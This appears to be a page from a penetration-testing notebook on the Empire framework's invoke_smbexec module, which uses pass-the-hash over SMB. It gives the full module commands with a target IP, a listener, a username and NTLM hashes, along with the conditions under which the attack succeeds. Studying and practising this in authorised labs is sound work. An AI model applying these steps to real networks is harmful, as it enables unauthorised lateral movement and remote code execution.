




invoke_smbexec
Github:
https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-SMBExec.ps1Executes
a stager on remote hosts using SMBExec.ps1. This module requires a username and NTLM hash
(Empire)> usemodule lateral_movement/invoke_smbexec
(Empire)> info
example:
(Empire)> usemodule lateral_movement/invoke_smbexec
(Empire)> set ComputerName 192.168.1.21 #ip address(192.168.1.21) or Hostname(WIN-PR5D29MN00J)
(Empire)> set Listener myhttp
(Empire)> set Username danie2
(Empire)> set Hash 41e1f780a75b6f832d245c2be6c6e97b
(Empire)> set Hash 9b2a36c723283324aad3b435b51404ee:41e1f780a75b6f832d245c2be6c6e97b #NTLM Hash in LM:NTLM or NTLM format
(Empire)> set Domain WIN-PR5D29MN00J
When it
worksThis works if:
◇ the account which we pass the hash have a RID 500 local administrator
accounts.
◇ the registry key LocalAccountTokenFilterPolicy must be set to 1, this allow non RID-500 user
accounts (for example users in the local administrator) to successfully pass-the-hash. To know more about it go to
the chapter
psexecTo
know more in general:
https://posts.specterops.io/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy-506c25a7c167When
it does not worksBelow is an example where the module does not work, because of the account is
RID-1000
 because the RID of this
account is 1000
To have a list of
accounts on windows and their SID(with
RID)
C:\> wmic useraccount list brief
For more informations
on Pass the Hash technique see the chapter
Post
Exploitation → Passwords hash → Types of Attacks → Pass the Hashes In particular in its subchapter
psexec
is explained the mitigations that Microsoft tried to apply to resolve the vulnerability